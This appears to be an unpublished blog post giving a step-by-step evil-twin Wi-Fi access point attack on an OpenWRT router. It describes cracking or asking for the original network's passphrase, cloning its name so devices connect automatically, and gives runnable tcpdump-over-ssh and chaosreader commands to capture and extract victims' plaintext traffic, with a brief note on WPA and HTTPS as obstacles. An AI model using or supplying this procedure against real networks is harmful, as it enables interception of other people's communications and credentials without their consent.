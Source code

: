 ```yaml
---
layout: post
published: false
title: Security-MITM-attack-via-Evil-twin-AP
---
```

## Setup a evil twin AP with same Password

### Prepare

- A router with OpenWRT
- Desktop for auditing

### Quick Start

- Setup the AP and bridge client to connect the orignal twin AP
- Name the AP with same ESSID, you don't need to change BSSID because it's designed with same
- Ask or Try to brute-force crack the passphrase of orignal AP (for WEP, you can also try to capture packets to decrypt, for WPS enabled router, you can attack it by cracking the PIN code)
- Setup the Evil AP with the same passphrase

After this, you can wait until someone (maybe your own mobile phone) connect to your AP without any manual configuration. That's the beauty of SSID system.

- Install tcpdump on the router
- Install chaosreader on your desktop

On desktop, redirect the tcpdump output into local file.

`ssh user@ROUTER_IP "tcpdump -s 0 -U -w - -i ra0 not port 22 and not host DESKTOP_IP" > /tmp/all.cap`

and then

`mkdir /tmp/chaos && cd /tmp/chaos && chaosreader /tmp/all.cap`

this will extract all the traffic which are in plaintext and then create a index.html in current folder, open the index.html, you will see a report with images and HTTP requests. Enjoy it.

### Difficulties

- WPA is resisting MITM through four handshakes

computing a shared secret composite of a passphrase, a nonce and BSSID, without revealing any infomation about the passphrase, both Client and AP. This is also using a Key Exchange protocol to avoid replay/MITM attack.

- Https Spoofing is not included in this tiral, because it's kind of tricky when you have to use a illegal certificate or have to attack TLS protocol from basis, will mention it next time.
